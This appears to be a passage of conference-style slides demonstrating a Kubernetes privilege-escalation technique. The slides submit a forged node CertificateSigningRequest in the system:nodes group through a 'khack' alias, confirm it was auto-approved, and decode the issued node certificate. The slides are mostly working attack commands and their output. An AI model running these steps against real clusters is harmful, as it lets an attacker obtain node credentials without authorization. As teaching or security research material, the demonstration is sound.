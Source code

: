 ### Submit the key to k8s api
[.code-highlight: all]
[.code-highlight: 5]
[.code-highlight: 8]
[.code-highlight: 9]
[.code-highlight: 15]


```yaml
root@hckd# cat <<EOF | khack create -f -
apiVersion: certificates.k8s.io/v1beta1
kind: CertificateSigningRequest
metadata:
  name: node-csr-$(date +%s)
spec:
  groups:
  - system:nodes
  request: $(cat skynet.csr | base64 | tr -d '\n')
  usages:
  - digital signature
  - key encipherment
  - client auth
EOF
certificatesigningrequest.certificates.k8s.io/node-csr-1637735026 created               
```

---
### Validate approval
[.code-highlight: all]
[.code-highlight: 5]

```coffeescript
root@hckd# khack get csr
  NAME                     AGE   SIGNERNAME  REQUESTOR           CONDITION
  csr-d886r                85m   kubernet... system:node:gke-... Approved,Issued
  node-csr-13YZFdbS1sQ8... 85m   kubernet... kubelet             Approved,Issued
# node-csr-1637735026      14s   kubernet... kubelet             Approved,Issued           
```

### Success!

---
### Let's decode it!
[.code-highlight: 1-3]
[.code-highlight: 5-9]
[.code-highlight: 10-15]

```coffeescript
root@hckd# khack get csr node-csr-1637735026
  NAME                     AGE   SIGNERNAME  REQUESTOR  CONDITION
  node-csr-1637735026      14s   kubernet... kubelet    Approved,Issued           

root@hckd# khack get csr node-csr-1637735026    \
      -o jsonpath='{.status.certificate}'       \
      | base64 -d >                             \
      skynet.crt          

root@hckd# cat skynet.crt
-----BEGIN CERTIFICATE-----
MIIDxjCCAi6gAwIBAgIRAItGFVuOH+VSZ6xWdHv5lC4wDQYJKoZIhvcNAQELBQAw
LzEtMCsGA1UEAxMkMmMxYmZiMGItNGVmYi00ZmRmLWE5NGUtNjkxZDhmZDhhYThk
MB4XDTIxMTEyNDA2MjM0OVoXDTI2MTEyMzA2MjM0OVowNjEVMBMGA1UEChMMc3lz
```

---